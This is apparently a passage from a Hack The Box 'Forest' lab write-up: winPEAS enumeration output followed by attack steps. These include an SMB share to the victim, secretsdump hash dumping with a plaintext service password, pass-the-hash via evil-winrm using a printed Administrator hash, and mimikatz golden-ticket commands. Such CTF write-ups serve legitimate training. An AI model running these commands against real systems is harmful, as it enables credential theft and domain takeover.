    @mlx4_bus.inf,%WinMad.ServiceDesc%;WinMad Service(Mellanox - @mlx4_bus.inf,%WinMad.ServiceDesc%;WinMad Service)[C:\Windows\System32\drivers\winmad.sys] - System
   =================================================================================================

    @winusb.inf,%WINUSB_SvcDesc%;WinUsb Driver(@winusb.inf,%WINUSB_SvcDesc%;WinUsb Driver)[C:\Windows\System32\drivers\WinUSB.SYS] - System
   =================================================================================================

    @mlx4_bus.inf,%WinVerbs.ServiceDesc%;WinVerbs Service(Mellanox - @mlx4_bus.inf,%WinVerbs.ServiceDesc%;WinVerbs Service)[C:\Windows\System32\drivers\winverbs.sys] - System
   =================================================================================================


  [+] Modifiable Services(T1007)
   [?] Check if you can modify any service https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
    You cannot modify any service

  [+] Looking if you can modify any service registry()
   [?] Check if you can modify the registry of a service https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services-registry-permissions
    [-] Looks like you cannot change the registry of any service...

  [+] Checking write permissions in PATH folders (DLL Hijacking)()
   [?] Check for DLL Hijacking in PATH folders https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dll-hijacking
    C:\Windows\system32
    C:\Windows
    C:\Windows\System32\Wbem
    C:\Windows\System32\WindowsPowerShell\v1.0\


  ====================================(Applications Information)====================================

  [+] Current Active Window Application(T1010&T1518)
System.NullReferenceException: Object reference not set to an instance of an object.
   at d1.b(String A_0, Dictionary`2 A_1)
   at d4.ar()

  [+] Installed Applications --Via Program Files/Uninstall registry--(T1083&T1012&T1010&T1518)
   [?] Check if you can modify installed software https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#software
    C:\Program Files\Common Files
    C:\Program Files\desktop.ini
    C:\Program Files\internet explorer
    C:\Program Files\Uninstall Information
    C:\Program Files\VMware
    C:\Program Files\Windows Defender
    C:\Program Files\WindowsApps
    C:\Program Files\WindowsPowerShell


  [+] Autorun Applications(T1010)
   [?] Check if you can modify other users AutoRuns binaries https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#run-at-startup
    Folder: C:\Program Files\VMware\VMware Tools
    File: C:\Program Files\VMware\VMware Tools\vmtoolsd.exe -n vmusr
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   =================================================================================================

System.Collections.Generic.KeyNotFoundException: The given key was not present in the dictionary.
   at System.ThrowHelper.ThrowKeyNotFoundException()
   at System.Collections.Generic.Dictionary`2.get_Item(TKey key)
   at d4.ap()

  [+] Scheduled Applications --Non Microsoft--(T1010)
   [?] Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#run-at-startup
System.IO.FileNotFoundException: Could not load file or assembly 'Microsoft.Win32.TaskScheduler, Version=2.8.16.0, Culture=neutral, PublicKeyToken=c416bc1b32d97233' or one of its dependencies. The system cannot find the file specified.
File name: 'Microsoft.Win32.TaskScheduler, Version=2.8.16.0, Culture=neutral, PublicKeyToken=c416bc1b32d97233'
   at dx.a()
   at d4.ao()

WRN: Assembly binding logging is turned OFF.
To enable assembly bind failure logging, set the registry value [HKLM\Software\Microsoft\Fusion!EnableLog] (DWORD) to 1.
Note: There is some performance penalty associated with assembly bind failure logging.
To turn this feature off, remove the registry value [HKLM\Software\Microsoft\Fusion!EnableLog].


  =========================================(Network Information)=========================================

  [+] Network Shares(T1135)
  [X] Exception: Access denied 

  [+] Host File(T1016)

  [+] Network Ifaces and known hosts(T1016)
   [?] The masks are only for the IPv4 addresses 
  [X] Exception: The requested protocol has not been configured into the system, or no implementation for it exists
    Ethernet0[00:50:56:B9:39:25]: 10.10.10.161 / 255.255.255.0
        Gateways: 10.10.10.2
        DNSs: 127.0.0.1
    Loopback Pseudo-Interface 1[]: 127.0.0.1, ::1 / 255.0.0.0
        DNSs: fec0:0:0:ffff::1%1, fec0:0:0:ffff::2%1, fec0:0:0:ffff::3%1

  [+] Current Listening Ports(T1049&T1049)
   [?] Check for services restricted from the outside 
    Proto     Local Address          Foreing Address        State
    TCP       0.0.0.0:88                                    Listening
    TCP       0.0.0.0:135                                   Listening
    TCP       0.0.0.0:389                                   Listening
    TCP       0.0.0.0:445                                   Listening
    TCP       0.0.0.0:464                                   Listening
    TCP       0.0.0.0:593                                   Listening
    TCP       0.0.0.0:636                                   Listening
    TCP       0.0.0.0:3268                                  Listening
    TCP       0.0.0.0:3269                                  Listening
    TCP       0.0.0.0:5985                                  Listening
    TCP       0.0.0.0:9389                                  Listening
    TCP       0.0.0.0:47001                                 Listening
    TCP       0.0.0.0:49664                                 Listening
    TCP       0.0.0.0:49665                                 Listening
    TCP       0.0.0.0:49666                                 Listening
    TCP       0.0.0.0:49667                                 Listening
    TCP       0.0.0.0:49671                                 Listening
    TCP       0.0.0.0:49676                                 Listening
    TCP       0.0.0.0:49677                                 Listening
    TCP       0.0.0.0:49684                                 Listening
    TCP       0.0.0.0:49695                                 Listening
    TCP       0.0.0.0:49714                                 Listening
    TCP       10.10.10.161:53                               Listening
    TCP       10.10.10.161:139                              Listening
    TCP       127.0.0.1:53                                  Listening
    TCP       [::]:88                                       Listening
    TCP       [::]:135                                      Listening
    TCP       [::]:445                                      Listening
    TCP       [::]:464                                      Listening
    TCP       [::]:593                                      Listening
    TCP       [::]:5985                                     Listening
    TCP       [::]:9389                                     Listening
    TCP       [::]:47001                                    Listening
    TCP       [::]:49664                                    Listening
    TCP       [::]:49665                                    Listening
    TCP       [::]:49666                                    Listening
    TCP       [::]:49667                                    Listening
    TCP       [::]:49671                                    Listening
    TCP       [::]:49676                                    Listening
    TCP       [::]:49677                                    Listening
    TCP       [::]:49684                                    Listening
    TCP       [::]:49695                                    Listening
    TCP       [::]:49714                                    Listening
    TCP       [::1]:53                                      Listening
    UDP       0.0.0.0:123                                   Listening
    UDP       0.0.0.0:389                                   Listening
    UDP       0.0.0.0:500                                   Listening
    UDP       0.0.0.0:4500                                  Listening
    UDP       0.0.0.0:5353                                  Listening
    UDP       0.0.0.0:5355                                  Listening
    UDP       10.10.10.161:53                               Listening
    UDP       10.10.10.161:88                               Listening
    UDP       10.10.10.161:137                              Listening
    UDP       10.10.10.161:138                              Listening
    UDP       10.10.10.161:464                              Listening
    UDP       127.0.0.1:53                                  Listening
    UDP       127.0.0.1:50162                               Listening
    UDP       127.0.0.1:52325                               Listening
    UDP       127.0.0.1:53345                               Listening
    UDP       127.0.0.1:54127                               Listening
    UDP       127.0.0.1:56496                               Listening
    UDP       127.0.0.1:61493                               Listening
    UDP       127.0.0.1:63164                               Listening
    UDP       127.0.0.1:64739                               Listening
    UDP       [::]:123                                      Listening
    UDP       [::]:500                                      Listening
    UDP       [::1]:53                                      Listening
    UDP       [::1]:54128                                   Listening

  [+] Firewall Rules(T1016)
   [?] Showing only DENY rules (too many ALLOW rules always) 
    Current Profiles: PUBLIC
    FirewallEnabled (Domain):    False
    FirewallEnabled (Private):    False
    FirewallEnabled (Public):    False
    DENY rules:

  [+] DNS cached --limit 70--(T1016)
    Entry                                 Name                                  Data
  [X] Exception: Access denied 


  =========================================(Windows Credentials)=========================================

  [+] Checking Windows Vault()
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-manager-windows-vault
  [ERROR] Unable to enumerate vaults. Error (0x1061)
    Not Found

  [+] Checking Credential manager()
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-manager-windows-vault
    This function is not yet implemented.
    [i] If you want to list credentials inside Credential Manager use 'cmdkey /list'

  [+] Saved RDP connections()
    Not Found

  [+] Recently run commands()
    Not Found

  [+] Checking for DPAPI Master Keys()
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dpapi
    Not Found

  [+] Checking for Credential Files()
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dpapi
    Not Found

  [+] Checking for RDCMan Settings Files()
   [?] Dump credentials from Remote Desktop Connection Manager https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#remote-desktop-credential-manager
    Not Found

  [+] Looking for kerberos tickets()
   [?]  https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88
    Not Found

  [+] Looking saved Wifis()
    This function is not yet implemented.
    [i] If you want to list saved Wifis connections you can list the using 'netsh wlan show profile'
    [i] If you want to get the clear-text password use 'netsh wlan show profile <SSID> key=clear'

  [+] Looking AppCmd.exe()
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#appcmd-exe
    Not Found

  [+] Looking SSClient.exe()
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#scclient-sccm
    Not Found

  [+] Checking AlwaysInstallElevated(T1012)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated isn't available

  [+] Checking WSUS(T1012)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus
    Not Found


  ========================================(Browsers Information)========================================

  [+] Looking for Firefox DBs(T1503)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#browsers-history
    Not Found

  [+] Looking for GET credentials in Firefox history(T1503)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#browsers-history
    Not Found

  [+] Looking for Chrome DBs(T1503)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#browsers-history
    Not Found

  [+] Looking for GET credentials in Chrome history(T1503)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#browsers-history
    Not Found

  [+] Chrome bookmarks(T1217)
    Not Found

  [+] Current IE tabs(T1503)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#browsers-history
  [X] Exception: System.Reflection.TargetInvocationException: Exception has been thrown by the target of an invocation. ---> System.Runtime.InteropServices.COMException: Class not registered (Exception from HRESULT: 0x80040154 (REGDB_E_CLASSNOTREG))
   --- End of inner exception stack trace ---
   at System.RuntimeType.InvokeDispMethod(String name, BindingFlags invokeAttr, Object target, Object[] args, Boolean[] byrefModifiers, Int32 culture, String[] namedParameters)
   at System.RuntimeType.InvokeMember(String name, BindingFlags bindingFlags, Binder binder, Object target, Object[] providedArgs, ParameterModifier[] modifiers, CultureInfo culture, String[] namedParams)
   at d0.s()
    Not Found

  [+] Looking for GET credentials in IE history(T1503)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#browsers-history

  [+] IE favorites(T1217)
    Not Found


  ==============================(Interesting files and registry)==============================

  [+] Putty Sessions()
    Not Found

  [+] Putty SSH Host keys()
    Not Found

  [+] SSH keys in registry()
   [?] If you find anything here, follow the link to learn how to decrypt the SSH keys https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#ssh-keys-in-registry
    Not Found

  [+] Cloud Credentials(T1538&T1083&T1081)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-inside-files
    Not Found

  [+] Unnattend Files()

  [+] Looking for common SAM & SYSTEM backups()
    C:\Windows\System32\config\RegBack\SAM
    C:\Windows\System32\config\RegBack\SYSTEM

  [+] Looking for McAfee Sitelist.xml Files()

  [+] Cached GPP Passwords()
  [X] Exception: Could not find a part of the path 'C:\ProgramData\Microsoft\Group Policy\History'.

  [+] Looking for possible regs with creds(T1012&T1214)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#inside-the-registry
    Not Found
    Not Found
    Not Found
    Not Found

  [+] Looking for possible password files in users homes(T1083&T1081)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-inside-files

  [+] Looking inside the Recycle Bin for creds files(T1083&T1081&T1145)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-inside-files
    Not Found

  [+] Searching known files that can contain creds in home(T1083&T1081)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-inside-files

  [+] Looking for documents --limit 100--(T1083)
    Not Found

  [+] Recent files --limit 70--(T1083&T1081)
    Not Found

```
# SMB Share with victim
```
impacket:$ python smbserver.py zeruel /home/zeruel/hackthebox/forest/smb
```
```
forest PS > net use Z: \\<ip>\zeruel
```

# Bloodhound Analysis


shortest path to admin domain:
- svc-alfresco (owns)
- TEMP123 (memberof)
- exchange windows permissions (writedacl)
- htb.local (contains)
- Administrator 

# Dumping ntds.dit 

```
aclpwn -f svc-alfresco@htb.local -t htb.local -s 10.10.10.161
secretsdump.py -just-dc-ntlm -exec-method wmiexec -outputfile ntds.dit htb.local/svc-alfresco:s3rvice@10.10.10.161
```

# Pass the hash

Using the hash for Administrator obtained with secretsdump 
```
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
we can get a shell using

```
ruby evil-winrm.rb -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6 -i 10.10.10.161
```

# Alternate: Kerberos Golden Ticket Attack (didn't worked)
```
domain: htb.local
sid: S-1-5-21-3072663084-364016917-1341370565 (PS C:\ whoami /user)
krbtgt: 819af826bb148e603acb0f33d17632f8  (lm hash from secretdump)
```
launch mimikatz on victmin machine
```
kerberos::golden /domain:htb.local /sid:S-1-5-21-3072663084-364016917-1341370565 /aes256:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b /id:500 /user:Administrator
```
```
kerberos::ptt ticket.kirbi
```
```
misc:cmd
```


